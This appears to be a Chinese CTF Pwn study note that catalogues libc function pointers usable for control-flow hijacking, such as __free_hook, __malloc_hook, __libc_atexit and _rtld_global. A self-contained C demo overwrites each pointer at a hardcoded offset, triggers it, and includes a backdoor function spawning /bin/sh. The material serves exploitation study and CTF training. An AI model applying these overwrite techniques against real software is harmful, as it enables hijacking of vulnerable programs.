 ```yaml
---
title: CTF Pwn 题中 libc 可用 函数指针 （攻击位置） 整理
date: 2021-05-31 00:00:00
categories:
- CTF/Pwn
tags: 
---
```


> 更新中...在内存破坏漏洞的攻击过程中，攻击者的最终目标一般来说是控制流劫持。如果攻击者能获得一个任意地址写（aaw）的能力，则之后的需要做的就是修改的在**间接跳转**过程中被使用的关键数据。首先能想到的就是**函数指针**，因为其内容就是间接跳转的目标地址。另外还有可能是对间接跳转的起着间接影响的数据，比如多级指针、数组索引等，不过落到最后仍然是函数指针。攻击大流程走到这步，攻击这个动词的宾语就变成了某个数据、变量、内存位置，比如攻击`__free_hook`。本文对CTF Pwn题中 常见的 位于libc中的 可以被攻击者利用进行控制流劫持的 函数指针 以及 触发方式 进行了整理。

- __free_hook
- __malloc_hook
- __realloc_hook
- __libc_atexit
- _rtld_global
- prepare_handler

1. 攻击的数据本身就是函数指针：没啥说的直接改就行。
2. 攻击数据本身是多级指针，需要多级解引用后才能真正触发到间跳转：攻击多级指针本体并构造指针指向的合法数据，如果直接攻击最终有效的间接跳转，则退化为1。
3. 攻击数据本身是指针链表的索引：攻击索引，使其索引计算完成后为劫持地址，如果直接攻击指针链表，则退化为1。

```c
# include <stdio.h>
# include <sys/types.h>
# include <sys/stat.h>
# include <fcntl.h>
# include <unistd.h>
# include <sys/mman.h>
# include <string.h>
# include <stdlib.h>

void backdoor(){
    system("/bin/sh");
}

long long * get_addr(char * pattern){
    char buf [0x1000] = {0};
    read(open("/proc/self/maps",0),buf,0x1000);

    char * tmp = strtok(buf, "\n");
    while (tmp)
    {   
        if(strstr(tmp,pattern)){
            long long * leak_addr;
            sscanf(tmp,"%p",&leak_addr);
            return leak_addr;
        }
        tmp = strtok(NULL, "\n");
    }
}

void aaw(long long *addr,long long data){
    * addr = data;
}


void attack_malloc_hook(){
     // address information
     long long   * libc_base   =   get_addr("libc-2.23.so");
     long long     malloc_hook =   0x3c4b10 / 8;

     // attack
     aaw(libc_base + malloc_hook , 0xdeadbeefdeadbeef) ;

     // trigger
     // printf("%s",0x400000); //printf also can trigger malloc
     malloc(10);
     
}
void attack_realloc_hook(){
     // address information
     long long   * libc_base   =   get_addr("libc-2.23.so");
     long long     malloc_hook =   0x3c4b08 / 8;

     // attack
     aaw(libc_base + malloc_hook , 0xdeadbeefdeadbeef) ;

     // trigger
     realloc(0,0);
}
void attack_free_hook(){
    // https://lantern.cool/note-pwn-free-hook/
    // address information
    long long   * libc_base   =   get_addr("libc-2.23.so");
    long long     free_hook   =   0x3c67a8 / 8;

    // attack
    aaw(libc_base + free_hook ,   0xdeadbeefdeadbeef) ;

    // trigger
    free("");
}
void attack_libc_atexit(){
    // https://xz.aliyun.com/t/6260
    // ubuntu version >= 19 

    // address information
    // ubuntu 16.04 glibc 2.23 __libc_atexit 0x3c08d8 read only
    // ubuntu 18.04 glibc 2.27 __libc_atexit 0x3e7738 read only
    long long   * libc_base   =   get_addr("libc-2.31");
    long long     libc_atexit =   0x1ed608 / 8;

    // attack
    aaw(libc_base + libc_atexit , 0xdeadbeefdeadbeef) ;

    // trigger
    exit(0);
}
void attack_rtld_global(){
    //  https://www.cnblogs.com/bhxdn/p/14222558.html
    //  libc-2.23 _rtld_global:0x5f0040   __rtld_lock_lock_recursive: 3848  __rtld_lock_unlock_recursive: 3856
    //  libc-2.27 _rtld_global:0x619060   __rtld_lock_lock_recursive: 3840  __rtld_lock_unlock_recursive: 3848
    //  libc-2.31 _rtld_global:0x23e060   __rtld_lock_lock_recursive: 3848  __rtld_lock_unlock_recursive: 3856

    // address information
    long long   * libc_base      =  get_addr("libc-2.31");
    long long     libc_exit_rtld =  (0x23e060+3848) / 8;

    // attack
    aaw(libc_base + libc_exit_rtld , 0xdeadbeefdeadbeef) ;

    // trigger
    exit(0);
}
void attack_fork_prepare_handler(){
    // https://xuanxuanblingbling.github.io/ctf/pwn/2019/10/14/warmup/
    // prepare: address information and payload ptr
    long long   * libc_base   =   get_addr("libc-2.23.so");
    long long     fork_ptr    =   0x3c9748 / 8;
    long long     payload[6]  =   {0,0xdeadbeefdeadbeef,0,0,0,1};

    // attack
    aaw(libc_base + fork_ptr , payload) ;

    // trigger
    fork();
}

int main(){
    attack_free_hook();
}
```
